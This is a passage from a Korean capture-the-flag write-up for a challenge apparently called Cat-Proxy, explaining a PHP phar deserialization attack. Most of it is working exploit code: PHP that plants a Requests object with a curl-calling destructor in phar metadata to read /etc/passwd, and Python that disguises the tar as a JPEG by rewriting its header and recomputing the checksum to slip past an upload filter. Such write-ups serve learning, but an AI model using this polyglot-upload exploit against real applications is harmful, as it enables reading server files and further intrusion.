 우선 아래의 코드를 이용해 phar데이터를 tar로 만들었습니다.

```php
ini_set('phar.readonly',0);
class Requests{
    public $url;

    function __construct($url){
        $this->url = $url;
    }
    function __destruct(){
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $this->url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
        $output = curl_exec($ch);
        echo $output;
    }
}

@unlink("test.tar");
$phar = new PharData("get_flag.tar");
$phar["AAABshpik"] = "FLAGFLAGFLAG";
$obj = new Requests('file:///etc/passwd');
$phar->setMetadata($obj);
```

생성된 파일을 `file_exists("phar://test.tar");` 하게되면 /etc/passwd가 읽혀집니다.

test.tar의 앞 부분의 헥스값은 다음과 같습니다.

![](/Users/osehun/Git-CTF/my_prob/Cat-Proxy/img2.png)

앞부분에는 `$phar["AAABshpik"] = "FLAGFLAGFLAG";` 을 통해 넣었던 데이터가 들어있습니다.

이제 "AAABshpik"에서 AAA를 jpg를 업로드할 때 검사하는 헤더의 앞부분인 `\xFF\xD8\xFF` 으로 변경해야합니다.

앞서 말씀드렸다시피 checksum이 존재하기 때문에 이 값을 맞춰줘야 합니다.

아래의 코드를 통해 이름을 변경하고, checksum을 계산하여 넣어주었습니다.

```python
import sys
import struct

def calcChecksum(data):
	return sum(struct.unpack_from("148B8x356B",data))+256

if __name__=="__main__":
	if len(sys.argv)!=3:
		print "argv[1] is filename\nargv[2] is output filename.\n"
	else:
		with open(sys.argv[1],'rb') as f:
			data = f.read()
		# Make new checksum
		new_name = "\xFF\xD8\xFF\xDBshpik".ljust(100,'\x00')
		new_data = new_name + data[100:]
		checksum = calcChecksum(new_data)
		new_checksum = oct(checksum).rjust(7,'0')+'\x00'
		new_data = new_name + data[100:148] + new_checksum + data[156:]

		with open(sys.argv[2],'wb') as f:
			f.write(new_data)
```
